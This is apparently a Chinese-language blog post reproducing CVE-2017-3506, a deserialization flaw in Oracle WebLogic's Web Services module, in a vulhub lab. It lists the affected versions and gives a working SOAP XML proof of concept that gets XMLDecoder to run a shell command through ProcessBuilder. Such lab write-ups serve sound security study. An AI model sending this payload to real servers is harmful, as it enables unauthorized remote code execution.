 Title:weblogic漏洞CVE-2017-3506复现：Web Services模块的漏洞
Date: 2018-01-09 16:20
Category: 漏洞实践
Tags: 漏洞,Java,反序列化,weblogic
Slug: 
Authors: bit4woo
Summary: 

### 0x0、漏洞概述

Supported versions that are affected are 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1 and 12.2.1.2

### 0x1、环境部署

直接以P神的的vulhub中的环境就可以。其中的版本恰好是10.3.6(11g)，是存在漏洞的。安装其中的指引直接启动镜像就可以了。

https://github.com/vulhub/vulhub/tree/master/weblogic/weak_password



### 0x2、PoC的一些关键点

**请求构造**

在浏览器中访问http://xx.xx.132.37:7001/wls-wsat/CoordinatorPortType，通过burp抓包放到repeater中。

更换请求方式为post，修改Content-Type为text/xml，并贴入以下内容作为POST的data部分。这个PoC等同于命令：/bin/bash -c "touch /tmp/123"。

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>touch /tmp/123</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

截图如下：

![poc_formate](img/weblogic_CVE_2017_3506/poc_formate.png)
